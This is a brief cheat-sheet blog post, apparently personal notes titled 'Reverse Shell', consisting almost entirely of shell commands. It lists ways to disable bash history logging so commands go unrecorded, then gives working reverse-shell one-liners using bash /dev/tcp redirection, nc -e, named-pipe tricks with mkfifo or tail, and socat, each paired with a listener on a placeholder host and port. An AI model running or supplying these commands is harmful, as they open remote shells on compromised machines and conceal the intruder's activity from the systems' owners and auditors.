 ```yaml
---
layout: post
title:  "Reverse Shell"
date:   2021-11-17 21:22:50 +0800
categories: notes update
tags: bash socat nc
---
```


## Do not log commands

```bash
$ unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG
$ export HISTFILE=/dev/null
$ export HISTSIZE=0
$ export HISTFILESIZE=0
```

## bash

**Listen**

```bash
$ nc -lvvp {port}
```

**Reverse connect**

```bash
$ bash -i >& /dev/tcp/{host}/{port} 0>&1
```

## nc

Listen

```bash
$ nc -lvvp {port}
```

**Reverse connect**

```bash
$ nc -e /bin/sh {host} {port}
```

or

```bash
$ [mknod | mkfifo] {name} p
$ nc {host} {port} < {name} | /bin/sh 1> {name}
# cleanup
$ rm -f {name}
```

or

```bash
$ touch {name}
$ tail -f {name} | sh -i 2>&1 | nc {host} {port} > {name}
# cleanup
$ rm -f {name}
```

## socat

**Listen**

```bash
$ socat file:`tty`,raw,echo=0 tcp-listen:{port}
```

**Reverse connect**

```bash
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{host}:{port}
```

